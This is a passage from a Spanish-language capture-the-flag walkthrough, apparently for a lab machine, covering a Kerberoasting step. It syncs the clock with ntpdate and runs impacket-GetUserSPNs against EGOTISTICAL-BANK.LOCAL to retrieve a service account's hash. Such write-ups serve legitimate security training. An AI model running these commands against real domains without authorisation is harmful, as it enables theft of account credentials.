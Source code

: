 Para sincronizarlo, simplemente: ``sudo ntpdate IPdelDC``

``sudo ntpdate 10.10.10.175``
![24](Images/24.png)


Repetimos.

``impacket-GetUserSPNs -request -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/fsmith``
![25](Images/25.png)

Ahora sí. Tenemos el hash de HSmith. O bien nos copiamos su contenido, o bien repetimos el comando redirigiendo el output a un archivo.

![26](Images/26.png)
